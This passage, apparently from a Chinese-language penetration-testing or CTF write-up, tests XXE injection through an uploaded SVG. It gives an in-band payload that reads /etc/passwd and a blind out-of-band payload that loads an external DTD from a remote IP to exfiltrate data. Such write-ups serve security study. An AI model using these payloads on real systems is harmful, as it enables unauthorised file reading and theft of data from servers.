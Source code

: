   ![image-20210629183317863](/images/image-20210629183317863.png)

  感觉没什么用，pass

* xxe注入

  xxe注入直接试了下能不能读取文件

  payload:

  ```xml
  <?xml version="1.0" encoding="UTF-8" standalone="no"?>
  <!DOCTYPE testingxxe [ <!ENTITY xxe SYSTEM "file:///etc/passwd">]>
  <svg xmlns:svg="http://www.w3.org/2000/svg" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="200" height="200">
  <text x="0" y="20" font-size="10">&xxe;</text>
  </svg>
  ```

  发现并没有回显，然后就试了下无回显注入

  BLUDIT.svg：

  ```xml
  <!DOCTYPE svg [
  <!ELEMENT svg ANY >
  <!ENTITY % sp SYSTEM "http://101.34.83.83:80/xxe.xml">
  %sp;
  %param1;
  ]>
  <svg viewBox="0 0 200 200" version="1.2" xmlns="http://www.w3.org/2000/svg" style="fill:red">
        <text x="15" y="100" style="fill:black">XXE via SVG rasterization</text>
        <rect x="0" y="0" rx="10" ry="10" width="200" height="200" style="fill:pink;opacity:0.7"/>
        <flowRoot font-size="15">
           <flowRegion>
             <rect x="0" y="0" width="200" height="200" style="fill:red;opacity:0.3"/>
           </flowRegion>
           <flowDiv>
              <flowPara>&exfil;</flowPara>
           </flowDiv>
        </flowRoot>
  </svg>
  ```